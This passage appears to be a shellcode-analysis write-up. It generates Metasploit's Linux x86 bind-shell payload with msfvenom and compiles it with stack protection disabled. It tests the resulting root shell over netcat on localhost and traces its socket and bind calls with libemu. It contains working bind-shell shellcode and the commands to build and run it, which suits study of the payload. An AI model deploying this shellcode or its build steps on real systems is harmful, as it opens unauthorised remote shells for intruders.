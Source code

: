 Generating shellcode.

```sh
root@ubuntu:~# msfvenom -p linux/x86/shell_bind_tcp RHOST=127.0.0.1 -f c -v shellcode
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 78 bytes
Final size of c file: 360 bytes
unsigned char shellcode[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
root@ubuntu:~#
```

Compile and test.

```sh
root@ubuntu:~# gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
root@ubuntu:~# ./shellcode 
^Z
[2]+  Stopped                 ./shellcode
root@ubuntu:~# bg
[2]+ ./shellcode &
root@ubuntu:~# nc -nv 127.0.0.1 4444
Connection to 127.0.0.1 4444 port [tcp/*] succeeded!
id
uid=0(root) gid=0(root) groups=0(root)
```

Use `libemu` to dump assembly code.

```sh
root@ubuntu:~# msfvenom -p linux/x86/shell_bind_tcp RHOST=127.0.0.1 -f raw | sctest -S -s 100000 -vvv
verbose = 3
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 78 bytes
*
s
n
i
p
*
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int bind (
     int sockfd = 14;
     struct sockaddr_in * my_addr = 0x00416fc2 => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 0 (host=0.0.0.0);
             };
             char sin_zero = "       ";
         };
     int addrlen = 16;
```
